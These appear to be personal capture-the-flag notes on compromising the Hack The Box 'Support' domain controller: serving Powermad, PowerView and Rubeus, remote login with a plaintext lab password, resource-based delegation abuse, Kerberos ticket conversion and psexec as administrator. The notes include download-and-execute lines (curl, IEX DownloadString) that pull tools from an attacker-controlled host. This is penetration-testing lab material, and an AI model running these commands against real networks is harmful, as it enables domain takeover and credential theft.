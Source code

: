 Serve up `powermad.ps1`, `PowerView.ps1`, and `Rubeus.exe` using #pythonhttpserver 

Make `www` directory. 

`python3 -m http.server`

Let's use #evilwinrm to remote in

`evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful`

![[Pasted image 20250104212520.png]]

Download these files into `programdata` using #curl for the .exe and #IEX for the .ps1 scripts

`curl 10.10.14.8:8000/Rubeus.exe -o Rubeus.exe`

`IEX(New-Object Net.WebClient).downloadString ('http://10.10.14.8:8000/Powermad.ps1')`

`IEX(New-Object Net.WebClient).downloadString ('http://10.10.14.8:8000/PowerView.ps1')`

![[Pasted image 20250104212900.png]]
Verifying that we can create machine accounts (we can create 10)

`Get-DomainObject -Identity 'DC=SUPPORT,DC-HTB' | select ms-ds-machineaccountquota`

![[Pasted image 20250104213045.png]]
Follow steps from Bloodhound for the GenericAll Abuse. 

Got this ticket after much flailing/ because of evilwinrm. The Bloodhound stuff didn't work?

![[Pasted image 20250104214325.png]]
Copying the ticket to our machine and then converting it from KIRBI to CCNAME format and using PSEXEC

Remove all spaces from pasted ticket using `:%s/ //g`

Using #impacket `ticketconverter.py` 

Convert ticket from base64 to .kirbi

Convert .kirbi to .ccache

![[Pasted image 20250104214852.png]]
Use this .ccache ticket with #psexec 

`KRB5CCNAME=ticket.ccache psexec.py -k -no-pass support.htb/administrator@dc.support.htb`

![[Pasted image 20250104215149.png]]

![[Pasted image 20250104215046.png]]
Installing DotNet on a linux machine

Google "install powershell linux"

https://learn.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-linux?view=powershell-7.4

Each version of ubuntu has its own distro. 
